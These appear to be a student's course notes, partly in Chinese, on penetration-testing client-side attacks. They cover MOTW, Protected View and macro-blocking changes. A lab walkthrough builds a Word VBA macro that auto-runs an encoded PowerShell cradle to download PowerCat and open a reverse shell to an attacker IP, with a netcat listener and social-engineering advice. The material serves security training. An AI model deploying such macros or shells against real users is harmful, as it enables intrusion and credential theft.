






## Preparing the attack
1. Delivery of Malicious Documents:
    * Challenges: Email providers and spam filters often block Microsoft Office documents due to the well-known risk of malicious macros.
    * Strategy: To circumvent this, attackers might use alternative delivery methods like providing a download link and employing social engineering tactics to persuade the target to open the document.

2. Mark of the Web (MOTW) and Protected View:
    * MOTW Tag: Documents downloaded from the internet are tagged with MOTW, causing them to open in Protected View by default.
    * Protected View: This is a security feature in Microsoft Office that opens documents in a read-only mode, disabling macros and editing functions.
    * Overcoming Protected View: Attackers might instruct the user to disable Protected View (e.g., by asking them to click 'Enable Editing') often using social engineering techniques like blurring the content and suggesting that clicking the button will 'unlock' the document.  
    **Anaylysis**
3. Changes in Macro Execution Policy by Microsoft:

    * Macro Execution Blocking: Microsoft announced changes to block macros in Office files from the internet by default, affecting versions from Office 2013 to Office 2021.
    * User Experience Changes: Instead of a simple 'Enable Content' prompt, users now see a more ominous warning and must go through a more complex process to enable macros (like unblocking the file under file properties).
    * Impact on Attackers: This change means attackers need to persuade the target to go through a more tedious process to enable the malicious macro.
4. The Dynamics of Cybersecurity:

    * Attack and Defense Spiral: The content highlights the ongoing battle between attackers and defenders in cybersecurity. As new defenses are implemented, attackers develop new methods to bypass them, leading to a continuous cycle of evolution in tactics and counter-tactics.
    * Penetration Tester’s Perspective: For penetration testers, these evolving defenses should be seen as a challenge to develop more sophisticated and creative attack strategies, rather than as roadblocks.
1. 准备攻击
   * 交付恶意文档:
       - 挑战: 电子邮件提供商和垃圾邮件过滤器通常会阻止微软Office文档，因为恶意宏的风险众所周知。
       - 策略: 为了规避这一点，攻击者可能会使用替代的交付方法，比如提供下载链接，并采用社会工程学策略说服目标打开文档。

2. 网页标记（MOTW）和受保护视图:
   * MOTW标记: 从互联网下载的文档会被标记为MOTW，导致它们默认在受保护视图中打开。
   * 受保护视图: 这是微软Office中的安全功能，以只读模式打开文档，禁用宏和编辑功能。
   * 克服受保护视图: 攻击者可能指示用户禁用受保护视图（例如，要求他们点击“启用编辑”），通常使用模糊内容和建议点击按钮将“解锁”文档等社会工程技术。

3. 微软宏执行策略的变化:
   * 阻止宏执行: 微软宣布更改默认情况下阻止来自互联网的Office文件中的宏，影响的版本从Office 2013到Office 2021。
   * 用户体验变化: 用户现在不再看到简单的“启用内容”提示，而是看到更加不祥的警告，并且必须通过更复杂的过程来启用宏（比如在文件属性下解除文件阻止）。
   * 对攻击者的影响: 这一变化意味着攻击者需要说服目标经历更繁琐的过程来启用恶意宏。

4. 网络安全的动态:
   * 攻击和防御螺旋: 内容突出显示了网络安全中攻击者和防御者之间的持续斗争。随着新的防御措施的实施，攻击者会制定新的方法来绕过它们，导致战术和反战术的持续演变。
   * 渗透测试员的视角: 对于渗透测试员来说，这些不断发展的防御措施应该被视为发展更复杂和创造性的攻击策略的挑战，而不是障碍。

>>Answer with true or false: MOTW is not added to files on FAT32-formatted devices. **TRUE**
* **MOTW is a kind of mark to protect files, if the file have this mark the file will open in protected view. But in FAT32(like old storage device like sd card it will lose the metadata so the mark will not work) it will not open the file in protected view.**  


>>Answer with true or false: After the announced Microsoft change regarding the default macro behavior in Office installations, users will still be able to execute macros with the click of a single button. False
* **Simply, before changing the default macro behavior in Office 2013, macros in Office 2013 will easily by click one button from being executed. changing need more steps to achieve that**

>>Answer with true or false: Is it possible to avoid getting a file flagged with MOTW by providing it in container file formats like 7zip, ISO, or IMG? Research if threat actors use these formats to deliver their malware and answer accordingly. True
* **It may can by pass the Security software detector but when you compress it or other way get the original file the tag will always be there**
https://github.com/mgeeky/PackMyPayload  
**if the file is read only if it is compressed by zip or other format. The Windows is hard to add the motw tag on it**

## Installing Microsoft Office
In this section we'll install Microsoft Office on the OFFICE machine (VM #1). We'll use RDP to connect to the system with a username of offsec and a password of lab.

>On Windows 11, Network Level Authentication (NLA)1 is enabled by default for RDP connections. Because OFFICE is not a domain-joined machine, rdesktop won't connect to it. We can use xfreerdp instead, which supports NLA for non domain-joined machines.
>>* xfreerdp: https://github.com/xfreerdp/xfreerdp/releases
>>* rdesktop: https://github.com/rdesktop/rdesktop/releases
>>* **xfreedp support more nla protocol**  

Once connected, we'll navigate to C:\tools\Office2019.img via Windows Explorer and double-click the file. A popup window asks if we want to open this file, and we'll respond by clicking Open. This will load the file as a virtual CD and allow us to start the installation process by clicking on Setup.exe.

Once the installation is complete, we'll click on Close on the splash screen to exit the installer and open Microsoft Word from the start menu. Once Microsoft Word opens, a popup will appear. We can close it by clicking the highlighted x in the upper-right corner to start the 7-day trial.

Next, a license agreement popup will appear and we must accept it by clicking Accept:

Next, a privacy popup is displayed. We'll click Next on the splash screen. In the next window, we'll then select No, don't send optional data and click on Accept.

Finally, we will click Done on the final window, completing the installation.

With Microsoft Word installed and configured, we can explore various ways to leverage it for client-side code execution.

## Labs
>Check which programs Microsoft Office 2019 has installed and complete the following list: Word, PowerPoint, Outlook, Publisher, Access, Excel, and __________

* use this command to link the machine  
`xfreerdp /u:offsec /p:lab /v:192.168.243.196`   


* don't find anything the machine has some kind of problem


## Leveraging Microsoft Word Macros
Microsoft Office applications like Word and Excel allow users to embed macros,1 which are a series of commands and instructions grouped together to programmatically accomplish a task. Organizations often use macros to manage dynamic content and link documents with external content.

>Macros can be written from scratch in Visual Basic for Applications (VBA),2 which is a powerful scripting language with full access to ActiveX objects3 and the Windows Script Host, similar to JavaScript in HTML Applications.

In this section, we'll use an embedded macro in Microsoft Word to launch a reverse shell when the document is opened. Macros are one of the oldest and best-known client-side attack vectors. They still work well today, assuming we take the considerations from the previous sections into account and can convince the victim to enable them.

>Bear in mind that older client-side attack vectors, including Dynamic Data Exchange (DDE)4 and various Object Linking and Embedding (OLE)5 methods do not work well today without significant target system modification.

Let's dive in and create a macro in Word. We'll create a blank Word document with mymacro as the file name and save it in the .doc format. This is important because the newer .docx file type cannot save macros without attaching a containing template. This means that we can run macros within .docx files but we can't embed or save the macro in the document. In other words, the macro is not persistent. Alternatively, we could also use the .docm file type for our embedded macro.


After we save the document, we can begin creating our first macro. To get to the macro menu, we'll click on the View tab from the menu bar where we will find and click the Macros element:


This presents a new window in which we can manage our macros. Let's enter MyMacro as the name in the Macro Name section then select the mymacro document in the Macros in drop-down menu. This is the document that the macro will be saved to. Finally, we'll click Create to insert a simple macro framework into our document.  



This presents the Microsoft Visual Basic for Applications window where we can develop our macro from scratch or use the inserted macro skeleton.


Let's review the provided macro skeleton. The main sub procedure used in our VBA macro begins with the Sub6 keyword and ends with End Sub. This essentially marks the body of our macro.

>A sub procedure is very similar to a function in VBA. The difference lies in the fact that sub procedures cannot be used in expressions because they do not return any values, whereas functions do.

At this point, our new macro, MyMacro(), is simply an empty sub procedure containing several lines beginning with an apostrophe, which marks the start of a single-line comment in VBA.
```vb
Sub MyMacro()
'
' MyMacro Macro
'
'

End Sub
```
In this example, we'll leverage ActiveX Objects,7 which provide access to underlying operating system commands. This can be achieved with WScript8 through the Windows Script Host Shell object.9

Once we instantiate a Windows Script Host Shell object with CreateObject,10 we can invoke the Run11 method for Wscript.Shell in order to launch an application on the target client machine. For our first macro, we'll start a PowerShell window. The code for that macro is shown below.
```vb
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```
Since Office macros are not executed automatically, we must use the predefined AutoOpen macro and Document_Open event. These procedures can call our custom procedure and run our code when a Word document is opened. They differ slightly, depending on how Microsoft Word and the document were opened. Both cover special cases which the other one doesn't and therefore we use both.

Our updated VBA code is shown below:
```vb
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```
Next, we'll click on the Save icon in the Microsoft Visual Basic for Applications window and close the document. After we re-open it, we are presented with a security warning indicating that macros have been disabled. To run our macro, we'll click on Enable Content.


In a real-world assessment, our victim must click on Enable Content to run our macros, otherwise our attack will fail. In enterprise environments, we can also face a situation where macros are disabled for Office documents in general. Fortunately for us, macros are commonly used (and allowed) in most enterprises.

Let's wrap this section up by extending the code execution of our current macro to a reverse shell with the help of PowerCat.12 We'll use a base64-encoded PowerShell download cradle13 to download PowerCat and start the reverse shell. The encoded PowerShell command will be declared as a String in VBA.

We should note that VBA has a 255-character limit for literal strings and therefore, we can't just embed the base64-encoded PowerShell commands as a single string. This restriction does not apply to strings stored in variables, so we can split the commands into multiple lines (stored in strings) and concatenate them.

To do this, we'll click on the Macros element in the View tab, select MyMacro in the list and click on Edit to get back to the macro editor. Next, we'll declare a string variable named Str with the Dim14 keyword, which we'll use to store our PowerShell download cradle and the command to create a reverse shell with PowerCat. The following listing shows the declaration of the variable and the modified line to run the command stored as a string in the variable.

```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```
Next, we'll employ a PowerShell command to download PowerCat and execute the reverse shell. We'll encode the command with base64 to avoid issues with special characters as we've dealt with in previous Modules. The following listing shows the PowerShell command before base64-encoding.

>To base64-encode our command, we can use pwsh on Kali as we did in the Common Web Application Attacks Module.

>>IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell

We can use the following Python script to split the base64-encoded string into smaller chunks of 50 characters and concatenate them into the Str variable. To do this, we store the PowerShell command in a variable named str and the number of characters for a chunk in n. We must make sure that the base64-encoded command does not contain any line breaks after we paste it into the script. A for-loop iterates over the PowerShell command and prints each chunk in the correct format for our macro.

```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Having split the base64-encoded string into smaller chunks, we can update our macro:

```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
After we modify our macro, we can save and close the document. Before re-opening it, let's start a Python3 web server in the directory where the PowerCat script is located. We'll also start a Netcat listener on port 4444.

After double-clicking the document, the macro is automatically executed. Note that the macro security warning regarding the Enable Content button is not appearing again. It will only appear again if the name of the document changes.

After the macro is executed, we receive a GET request for the PowerCat script in our Python3 web server and an incoming reverse shell in our Netcat listener.

Opening the document ran the macro and sent us a reverse shell. Excellent!

Let's briefly summarize what we did in this section. First, we created a VBA macro in a Word document to execute a single command when the document is opened. Then, we replaced the single command with a base64-encoded PowerShell command downloading PowerCat and starting a reverse shell on the local system.  
`nc -nvlp 4444`  
Microsoft Office documents containing malicious macros are still a great client-side attack vector to obtain an initial foothold in an enterprise network. However, with the growing awareness of users to not open Office documents from emails and the rising number of security technologies in place, it becomes increasingly more difficult to get a macro delivered and executed. Therefore, we'll discuss another client-side attack in the next Learning Unit, which we can use as an alternative or even as a delivery method for malicious Office documents.

## Labs  
>Perform the steps from this section to create a malicious Word document containing a macro with the name MyMacro on the OFFICE (VM #1) machine. For this, you have to install Microsoft Office on VM #1 again as outlined in the section "Installing Microsoft Office". Confirm that the macro works as expected by obtaining a reverse shell from the OFFICE machine. What keyword is used to declare a variable in VBA? Dim

>Once you have confirmed that the macro from the previous exercise works, upload the document containing the macro MyMacro in the file upload form (port 8000) of the TICKETS (VM #2) machine with the name ticket.doc. A script on the machine, simulating a user, checks for this file and executes it. After receiving a reverse shell, enter the flag from the flag.txt file on the desktop for the Administrator user. For the file upload functionality, add tickets.com with the corresponding IP address in /etc/hosts. Please note that it can take up to three minutes after uploading the document for the macro to get executed.